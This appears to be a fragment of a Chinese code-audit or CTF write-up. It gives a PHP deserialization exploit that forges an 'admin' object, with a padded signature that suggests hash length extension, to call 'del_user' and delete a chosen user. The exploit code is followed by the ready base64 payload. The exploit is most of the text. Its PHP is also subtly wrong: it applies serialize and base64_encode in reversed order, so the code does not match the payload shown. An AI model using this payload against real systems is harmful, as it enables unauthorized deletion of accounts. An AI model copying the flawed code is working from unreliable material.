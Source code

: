 删除用户的反序列化payload

userid为cookie中user的值base64解码后的第一个数字

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2011.png)

```php
<?php
class admin
{
    var $name = "admin";
    var $check = "6122c04e8a1f3529d556199960ef2556";
    var $data = "\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00admin";
    var $method = "del_user";
    var $userid = "2";
}

$a = new admin();
$api = serialize(base64_encode($a));
```

Tzo1OiJhZG1pbiI6NTp7czo0OiJuYW1lIjtzOjU6ImFkbWluIjtzOjU6ImNoZWNrIjtzOjMyOiI2MTIyYzA0ZThhMWYzNTI5ZDU1NjE5OTk2MGVmMjU1NiI7czo0OiJkYXRhIjtzOjQ4OiKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAiO3M6NjoibWV0aG9kIjtzOjg6ImRlbF91c2VyIjtzOjY6InVzZXJpZCI7czoxOiIyIjt9
